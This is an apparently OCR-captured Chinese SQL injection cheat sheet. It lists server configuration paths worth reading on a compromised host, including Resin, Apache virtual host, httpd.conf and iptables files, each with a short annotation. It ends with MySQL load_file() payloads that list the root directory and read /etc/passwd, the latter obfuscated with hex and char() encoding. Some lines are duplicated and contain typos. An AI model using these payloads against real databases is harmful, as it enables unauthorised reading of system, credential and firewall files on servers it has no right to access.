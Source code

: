 /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/sysconfig/iptables 查看防火墙策略

load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
